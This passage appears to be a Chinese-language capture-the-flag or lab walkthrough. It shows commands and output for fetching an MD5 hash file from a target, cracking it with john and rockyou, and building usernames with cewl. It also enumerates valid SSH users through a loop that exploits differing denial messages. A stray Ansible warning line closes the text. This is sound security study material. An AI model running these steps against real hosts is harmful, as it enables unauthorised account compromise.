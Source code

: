 下载并分析 hash.bak 文件：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl http://192.168.205.143/s/u/p/e/r/c/a/l/i/f/r/a/g/i/l/i/s/t/i/c/e/x/p/i/a/l/i/d/o/c/i/o/u/s/hash.bak
fcb6cc0d2a780ac022cf70ceb0d85f4c
c63c3575b62f4944fba4879c2dd3951b
...
```

文件包含100个MD5哈希值。使用john进行破解：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5     
...
kent12           (?)   
amotejoel        (?)   
sunjoo           (?)   
...
```

提取破解成功的密码：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ john --show hash --format=Raw-MD5 | cut -d: -f2 | sort | uniq > pass
```

# 四、用户名收集与SSH爆破

## 用户名枚举

使用 cewl 从主页提取可能的用户名：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cewl http://192.168.205.143/ | tr 'A-Z' 'a-z' > user
```

通过SSH连接测试，发现系统的行为特点：

- 存在的用户会提示输入密码
- 不存在的用户直接返回 "Permission denied (publickey)"

利用此特点枚举有效用户：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ while read u; do timeout 3 ssh "$u@192.168.205.143" 2>&1 | grep -q "publickey" || echo "$u"; done < user
jane
bert
```

发现三个有效用户：jane、bert、root


[WARNING]: No inventory was parsed, only implicit localhost is available
